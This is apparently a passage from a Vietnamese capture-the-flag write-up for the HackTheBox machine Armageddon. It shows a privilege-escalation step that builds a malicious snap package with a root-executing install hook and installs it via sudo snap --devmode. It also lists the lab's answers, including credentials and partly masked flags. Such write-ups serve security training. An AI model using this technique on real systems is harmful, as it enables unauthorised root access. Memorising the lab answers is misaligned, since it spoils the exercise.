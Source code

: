 ![image](https://hackmd.io/_uploads/BJDpKM9K0.png)
Theo script chạy, snap có thể truy cập vào máy chủ khi chạy ở chế độ gọi là `--devmode`. Ngoài ra, snap sử dụng các `--hook` và cụ thể là ghi lại toàn bộ  cài đặt đang chạy trong quá trình cài đặt. Điều đó có nghĩa là nếu `--devmode` được chỉ định, thì hook này sẽ được chạy tại thời điểm cài đặt, cấp quyền truy cập vào máy chủ và vì chúng ta có thể thực thi lệnh này với tư cách là root, thì mã sẽ được thực thi trong quá trình cài đặt
### Máy tấn công
```
COMMAND='cat /root/root.txt'
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n xxxx -s dir -t snap -a all meta
```
Sau khi tạo xong, ta sẽ tạo server để máy kia nhận file về
```
┌──(kali㉿kali)-[/tmp/tmp.iowiQJMSWW]
└─$ python3 -m http.server 8888                                 
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...

```
### Máy mục tiêu
```
[brucetherealadmin@armageddon ~]$ which curl
/usr/bin/curl

[brucetherealadmin@armageddon ~]$ curl http://10.10.14.93:8888/xxxx_1.0_all.snap -o xxxx_1.0_all.snap
```
## Post-Exploit
Hoàn thành tải file về máy mục tiêu, sử dụng lệnh cuối để lấy được flag 
```
[brucetherealadmin@armageddon ~]$ sudo snap install xxxx_1.0_all.snap --dangerous --devmode
Run install hook of "xxxx" snap if present                                                                    |error: cannot perform the following tasks:
- Run install hook of "xxxx" snap if present (run hook "install": 2a2785a9a*******)
```

# Results
1. How many TCP ports are open on Armageddon? --> 2
2. What is the name of the content management system the website is using? --> drupal
3. What is the name given to the exploit that targets Drupal < 8.3.9 / < 8.4.6 / < 8.5.1? --> drupalgeddon2
4. What user is the webserver running as? --> apache
5. What is the password for the MySQL database used by the site? --> CQHEy@9M*m23gBVj
6. What is the name of the table in the Drupal database that holder usernames and password hashes? --> users
7. What is the brucetherealadmin's password? --> booboo
8. Submit the flag located in the brucetherealadmin user's home directory. --> 56ddfa6966b8ad974c******
9. What is the full path to the binary on this machine that brucetherealadmin can run as root? --> /usr/bin/snap
10. Submit the flag located in root's home directory. --> 2a2785a9a08*******

![image](https://hackmd.io/_uploads/HyPdtM9FR.png)
